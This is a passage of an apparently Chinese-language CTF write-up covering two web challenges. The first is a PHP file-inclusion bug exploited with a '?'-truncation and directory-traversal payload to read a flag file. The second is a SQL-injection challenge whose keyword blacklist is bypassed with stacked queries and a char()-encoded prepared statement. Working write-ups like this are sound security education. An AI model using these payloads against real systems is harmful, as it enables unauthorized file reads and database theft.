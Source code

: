 ```php
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\"/>";
    }
?>
```

发现存在 `hint.php`：

```
flag not here, and flag in ffffllllaaaagggg
```

结合上述代码，可以确定是利用文件包含读取 `ffffllllaaaagggg` 文件。为此，我们需要提供 GET 参数 `file`。

注意到 `file` 参数的值会被经过如下处理：

```php
$_page = mb_substr(
                $page,
                0,
                mb_strpos($page .'?','?')
            );
```

那么如果我们在中间插入一个 `?`，就可以达到截断的效果。所以尝试 `?file=hint.php?ffffllllaaaagggg` 发现无法读取到内容，因此猜测 `hint.php?` 被当作了文件名的一部分，需要使用相对路径进行目录穿越：

```
?file=hint.php?../../../../../ffffllllaaaagggg
```

## \[强网杯 2019\] 随便注

单引号可以发现存在注入，但尝试注入时页面返回

```php
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

这说明无法通过常规手段进行注入，因此尝试堆叠注入：

```
1';show databases;
1';show tables;
```

得到需要的表名 `1919810931114514`，但是由于 `select` 等查询关键字被过滤，查字段内容需要另辟蹊径。这里使用了预处理语句：

```
1';sEt @poc=concat(char(115,101,108,101,99,116,32),'* from `1919810931114514`');prEpare poc from @poc;exEcute poc;#
```
